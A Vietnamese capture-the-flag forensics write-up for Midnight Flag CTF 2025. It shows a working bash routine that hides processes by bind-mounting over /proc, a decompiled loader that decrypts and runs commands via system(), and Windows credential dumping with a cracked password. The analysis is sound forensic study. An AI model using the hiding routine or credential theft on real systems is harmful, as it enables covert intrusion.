

# _Midnight Flag CTF 2025_

## _APT 1337_

- Liệt kê tiến trình:
> linux.psaux.PsAux
> 
> linux.pslist.PsList

- Check file trong RAM (khá tương tự filescan của windows)
> linux.linux.pagecache.InodePages

Dùng strings grep ra được lấy được 1 số thông tin hữu ích sau:
```
hide() {
    [[ -L /etc/mtab ]] && { cp /etc/mtab /etc/mtab.bak; mv /etc/mtab.bak /etc/mtab; }
    _pid=${1:-$$}
    [[ $_pid =~ ^[0-9]+$ ]] && { mount -n --bind /dev/shm /proc/$_pid && echo "[THC] PID $_pid is now hidden"; return; }
    local _argstr
    for _x in "${@:2}"; do _argstr+=" '${_x//\'/\'\"\'\"\'}'"; done
    [[ $(bash -c "ps -o stat= -p \$\$") =~ \+ ]] || exec bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
    bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
}

hide /usr/sbin/daemon &


950     949     sudo    AES_KEY 7557a272bacc4186952a567db00ae817704d059ecfdc8e630c04d8aabecd1e04
950     949     sudo    AES_IV  068131ad1d5c0c1516fce836d510ccce
```

Thấy được dòng cuối thực hiện `hide /usr/sbin/daemon`, khả nghi nên dùng `linux.linux.pagecache.InodePages` để tìm file trong ram

`python3 /home/kali/volatility3/vol.py -f challenge.lime linux.pagecache.InodePages --find /usr/sbin/daemon --dump`

Dùng ida để reverse

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _QWORD *v4; // rax
  __int64 v5; // rbx
  __int64 v6; // rbx
  __int64 v7; // rbx
  __int64 v8; // rbx
  __int64 v9; // rbx
  __int64 v10; // rbx
  __int64 v11; // rbx
  __int64 v12; // rbx
  __int64 v13; // rbx
  int fd; // [rsp+0h] [rbp-4C0h]
  int v15; // [rsp+4h] [rbp-4BCh]
  unsigned __int64 i; // [rsp+8h] [rbp-4B8h]
  char *v17; // [rsp+10h] [rbp-4B0h]
  char *v18; // [rsp+18h] [rbp-4A8h]
  time_t v19; // [rsp+20h] [rbp-4A0h]
  tm tp; // [rsp+30h] [rbp-490h] BYREF
  _BYTE v21[16]; // [rsp+70h] [rbp-450h] BYREF
  char v22[32]; // [rsp+80h] [rbp-440h] BYREF
  char command[1032]; // [rsp+A0h] [rbp-420h] BYREF
  unsigned __int64 v24; // [rsp+4A8h] [rbp-18h]

  v24 = __readfsqword(0x28u);
  fd = open("/tmp/.dat", 66, 384LL);
  if ( fd < 0 )
    return 1;
  if ( ftruncate(fd, 152LL) )
    return 1;
  zXb4W = (__int64)mmap(0LL, 0x98uLL, 3, 1, fd, 0LL);
  if ( zXb4W == -1 )
    return 1;
  v4 = (_QWORD *)zXb4W;
  v5 = qword_4028;
  *(_QWORD *)zXb4W = original_data;
  v4[1] = v5;
  v6 = qword_4038;
  v4[2] = qword_4030;
  v4[3] = v6;
  v7 = qword_4048;
  v4[4] = qword_4040;
  v4[5] = v7;
  v8 = qword_4058;
  v4[6] = qword_4050;
  v4[7] = v8;
  v9 = qword_4068;
  v4[8] = qword_4060;
  v4[9] = v9;
  v10 = qword_4078;
  v4[10] = qword_4070;
  v4[11] = v10;
  v11 = qword_4088;
  v4[12] = qword_4080;
  v4[13] = v11;
  v12 = qword_4098;
  v4[14] = qword_4090;
  v4[15] = v12;
  v13 = qword_40A8;
  v4[16] = qword_40A0;
  v4[17] = v13;
  v4[18] = qword_40B0;
  v17 = getenv("AES_KEY");
  v18 = getenv("AES_IV");
  if ( !v17 || !v18 )
    return 1;
  if ( (unsigned int)vNh3Z(v17, v22, 32LL) != 32 || (unsigned int)vNh3Z(v18, v21, 16LL) != 16 )
    return 1;
  v19 = time(0LL);
  memset(&tp, 0, 20);
  memset(&tp.tm_wday, 0, 32);
  tp.tm_year = 1100;
  tp.tm_mday = 1;
  if ( v19 < mktime(&tp) )
  {
    while ( 1 )
LABEL_20:
      sleep(1u);
  }
  for ( i = 0LL; i <= 0x97; ++i )
    *(_BYTE *)(zXb4W + i) ^= 0xAAu;
  v15 = pTq7L(zXb4W, 152LL, v22, v21, command);
  if ( v15 >= 0 )
  {
    command[v15] = 0;
    system(command);
    goto LABEL_20;
  }
  return 1;
}
```

Tạo file `tmp/.dat` chứa dữ liệu mã hóa, mình sẽ thực hiện tìm `tmp/.dat` trong ram

`python3 /home/kali/volatility3/vol.py -f challenge.lime linux.pagecache.InodePages --find /tmp/.dat --dump`


Decrypt bằng cách xor với `0xAA` sau đó là AES


HẾT !!

## Blackdoor

Nếu mount trực tiếp vào `virtual box` thì cần pass đăng nhập nhưng có thể dùng kali để mount và lấy được thông tin `SAM`, `SECURITY` => mật khẩu đăng nhập windows

### Mount

Nhận được 1 file `.ova` thay extension thành `.tar` rồi extract ra được 1 file `.vmdk`. Dùng file vmdk này để mount

https://github.com/fox-it/dissect

`sudo /home/kali/.local/bin/target-mount Blackdoor-disk001.vmdk ~/Downloads/blackdoor/mount`

Dùng tool này để trích xuất thông tin login

https://github.com/fortra/impacket/blob/master/examples/secretsdump.py


Lấy NTLM hash của John đem crack 

Pass: `1dodgeneon`

Đăng nhập vào check trong autoruns là thấy được 1 schedule task trông khả nghi



Tên file đúng phải là `mscms.dll`, đây là cách ngụy trang của malware

=> malware

Check md5


Thấy chương trình được đặt lịch với tên `Calibration Loader`, check trong `Task Scheduler`


Check ID


Done.


